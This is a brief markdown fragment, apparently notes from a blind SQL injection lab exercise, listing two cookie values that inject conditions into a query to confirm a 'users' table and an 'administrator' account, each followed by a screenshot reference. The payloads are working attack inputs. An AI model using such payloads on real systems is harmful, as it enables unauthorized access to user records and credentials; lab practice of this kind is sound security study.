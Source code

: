 * TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a

![alt text](image-17.png)

*  TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
![alt text](image-18.png)
